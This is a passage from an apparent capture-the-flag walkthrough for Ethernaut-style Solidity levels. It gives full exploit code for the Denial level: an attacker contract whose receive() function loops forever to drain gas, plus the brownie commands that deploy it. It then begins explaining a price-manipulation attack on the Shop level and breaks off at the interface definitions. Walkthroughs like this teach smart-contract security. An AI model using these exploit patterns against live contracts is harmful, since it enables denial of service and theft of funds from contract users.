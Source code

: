     pragma solidity ^0.8.0;

    interface IDenial {
        function withdraw() external;
        function setWithdrawPartner(address _partner) external;
        function contractBalance() external view returns (uint);
    }

    contract DenialAttacker {
        
        bool public constant YOU_ARE_A_SUCKER = true;
        bool public gasWaster;

        receive() external payable {
            while(YOU_ARE_A_SUCKER){
                gasWaster = !gasWaster;
            }
        }
    }

Notice the infinite loop with state changes in our receive function - the perfect gas guzzler!

In the brownie console:

    attacker = DenialAttacker.deploy({'from': player})
    denial = interface.IDenial(instance)
    denial.setWithdrawPartner(attacker.address,{'from': player})

That's actually it, no need to even call `withdraw`. Submit the level and move on.

## 22. Shop

This is another level where the contract is making a function call to msg.sender without any restrictions other than the name of the function. 

We can set up our malicious contract with a `price` function containing any instructions we want it to. Our goal is to get the item for cheaper than listed, which specifically means setting `isSold` to `true` and `price` to something less than the initial 100.

The `buy` function is going to query our contract's `price` function twice - once to check that it's above the current price and a second time to set the new price. This should seem familiar - it's similar to what we did in the Elevator level.

Our contract:

    //SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface Buyer {
        function price() external view returns (uint);
    }

    interface IShop {
        function buy() external;
        function isSold() external view returns (bool);
    }
